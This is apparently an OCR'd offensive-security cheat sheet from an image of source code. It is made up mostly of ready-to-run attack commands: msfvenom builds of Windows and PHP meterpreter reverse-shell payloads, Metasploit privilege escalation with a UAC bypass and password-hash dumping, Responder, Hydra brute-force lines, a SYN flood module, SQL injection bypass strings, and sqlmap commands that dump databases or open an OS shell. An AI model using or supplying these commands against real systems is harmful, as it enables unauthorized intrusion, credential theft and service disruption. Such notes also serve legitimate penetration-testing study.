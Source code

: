 # another vuln
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=your_ip LPORT=4444 -f exe > Exploit.exe
# priv escal
getsystem -t 1
use exploit/windows/local/bypassuac_fodhelper
run post/windows/gather/smart_hashdump

# stego
openstego.exe > extract data
quickstego.exe 

# fatrat

# responder
responder -l eth0

# hydra 
hydra -L /root/Desktop/Wordlists/Usernames.txt -P /Passwords.txt ftp://ip
hydra -t 4 -l <username_placeholder> -P /usr/share/wordlists/rockyou.txt -vV <ip_address> <protocol>

# file upload vuln
msfvenom -p php/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f raw

# synflood
msf > tcp/synflood

SQL Injection

blah' or 1=1 --
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

sqlmap -u "http://target.com/asdfds.asdf?id=1" --cookie="" --dbs
sqlmap -u "http://target.com/asdfds.asdf?id=1" --cookie="" -D testing -T what --dump (-os-shell)
# to get cookie
document.cookie
